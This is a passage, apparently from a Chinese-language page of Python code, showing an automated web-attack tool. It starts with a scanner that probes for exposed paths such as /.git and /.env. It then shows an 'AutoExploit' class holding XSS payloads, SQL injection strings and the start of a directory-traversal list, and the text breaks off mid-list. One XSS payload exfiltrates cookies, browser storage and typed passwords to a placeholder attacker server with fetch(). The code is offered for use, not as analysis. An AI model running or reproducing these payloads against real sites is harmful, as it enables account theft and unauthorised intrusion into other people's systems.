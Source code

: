 ```python
        '/backup', '/test', '/dev',
        '/.git', '/.env', '/wp-admin'
    ]
    
    results = {
        'server': server,
        'cookies': cookies,
        'links': links,
        'forms': forms,
        'sensitive_paths': []
    }
    
    for path in paths:
        try:
            r = requests.get(url + path)
            if r.status_code != 404:
                results['sensitive_paths'].append(path)
        except:
            continue
            
    return results
```

### 2. 自动化漏洞利用
```python
class AutoExploit:
    def __init__(self, url):
        self.url = url
        self.session = requests.Session()
        self.found_vulns = []
        
    def run_all_attacks(self):
        # 1. XSS攻击
        xss_payloads = [
            # 基础探测
            '<script>alert(1)</script>',
            # 绕过过滤
            '"><img src=x onerror=alert(1)>',
            # DOM型XSS
            '#"><img src=x onerror=alert(1)>',
            # 编码绕过
            '&#x3c;script&#x3e;alert(1)&#x3c;/script&#x3e;',
            # 数据窃取
            '''<script>
            fetch('http://攻击者服务器/steal?data='+btoa(JSON.stringify({
                cookies: document.cookie,
                localStorage: localStorage,
                sessionStorage: sessionStorage,
                password: document.querySelector('input[type=password]')?.value
            })))
            </script>'''
        ]
        
        # 2. SQL注入
        sqli_payloads = [
            "' OR '1'='1",
            "admin' --",
            "' UNION SELECT NULL,NULL--",
            "' WAITFOR DELAY '0:0:5'--"
        ]
        
        # 3. 目录遍历
        lfi_payloads = [
```